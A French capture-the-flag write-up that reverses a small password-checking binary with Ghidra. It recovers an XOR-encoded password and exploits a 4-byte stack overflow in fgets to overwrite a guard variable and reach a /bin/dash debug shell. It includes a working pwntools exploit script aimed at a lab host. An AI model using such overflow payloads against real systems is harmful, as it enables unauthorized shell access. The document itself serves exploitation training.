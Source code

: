 # Aarchibald

Décompilons avec ghidra le main : 

```c
undefined8 main(void)

{
  int iVar1;
  byte local_28 [36];
  int local_4;
  
  local_4 = 0x45435343;
  puts("Please enter your password:");
  fflush((FILE *)0x0);
  fgets((char *)local_28,0x28,stdin);
  len = 0xd;
  for (i = 0; i < 0xd; i = i + 1) {
    local_28[i] = local_28[i] ^ 0x36;
  }
  iVar1 = strncmp((char *)local_28,"eCfSDFwEeAYDr",0xd);
  if (iVar1 == 0) {
    puts("Welcome back!");
    fflush((FILE *)0x0);
    if (local_4 != 0x45435343) {
      puts("Entering debug mode");
      fflush((FILE *)0x0);
      system("/bin/dash");
    }
  }
  else {
    puts("Sorry, that\'s not the correct password.");
    puts("Bye.");
    fflush((FILE *)0x0);
  }
  return 0;
}
```

On remarque que notre input est xor avec 0x36 puis comparer au string "eCfSDFwEeAYDr"

Ainsi le string à passer en entrée est: SuPerpAsSworD

Cependant, cela n'est pas suffisant pour avoir le flag, il faut rentrer en "debug mode". Pour cela, il faudrait faire un buffer overflow et écrire dans local_4. local_28 a une taille de 36 mais dans la fonction fgets, on limite le nombre de caractère à 0x28=40 

Notre payload devra donc être de cette forme:
"SuPerpAsSworD"+"\x00"*26


```python
#!/usr/bin/env python3
import pwn

def main():
    conn=pwn.remote("172.25.106.194",4000)
    payload =b"SuPerpAsSworD"+b"\x00"*26
    conn.sendlineafter("Please enter your password:",payload)    
    conn.interactive()
    conn.close()
    

if __name__ == '__main__':
    main()
```

En lançant ce script, on réussit à passer le mode debug ! Plus qu'à cat le flag !  